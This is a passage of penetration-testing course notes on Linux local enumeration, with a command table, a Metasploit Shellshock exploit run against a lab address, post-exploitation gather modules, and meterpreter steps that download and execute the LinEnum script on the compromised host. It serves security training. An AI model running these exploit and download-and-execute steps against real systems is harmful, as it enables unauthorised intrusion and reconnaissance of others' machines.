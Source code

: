 | Command             | Description                              |
| ------------------- | ---------------------------------------- |
| `ps`                | Process list.                            |
| `pgrep vsftpd`      | Process PID.                             |
| `top`               | List of all running processes (dynamic). |
| `crontab -l`        | List of cronjobs for the current user.   |
| `ls -la /etc/cron*` | Cron files.                              |
| `cat /etc/cron*`    | Display cron file contents.              |

#### Automation

* In addition to performing local enumeration manually, we can also automate the process with the help of a few scripts and MSF modules.
* While local enumeration techniques/commands are important to know, as a penetration tester, you will need to be time efficient. As a result, you will need to learn how to utilize various automated enumeration scripts.
* In addition to automating the process of enumerating information like system information, users & groups etc, these automated enumeration scripts will also provide you with additional information regarding the target system like; privilege escalation, locally stored passwords etc.
* LinEnum : it is a simple bash script that automates common Linux local enumeration checks in addition to identifying privilege escalation vulnerabilities (https://github.com/rebootuser/LinEnum).

```bash
msf6> use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6> set targeturi /gettime.cgi
msf6> set rhosts 192.106.15.3
msf6> run
meterpreter> background
```

The MSF post-exploitation modules are :

* `post/linux/gather/enum_configs`
* `post/linux/gather/enum_network`
* `post/linux/gather/enum_system`
* `post/linux/gather/checkvm`

**LinEnum**

The script is here : https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh. Copy/paste the content in a bash file in the lab environment.

```bash
meterpreter> cat /etc/shells  # installed shells
meterpreter> cd /tmp
meterpreter> curl -o linenum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
meterpreter> chmod +x linenum.sh
meterpreter> ./linenum.sh
```
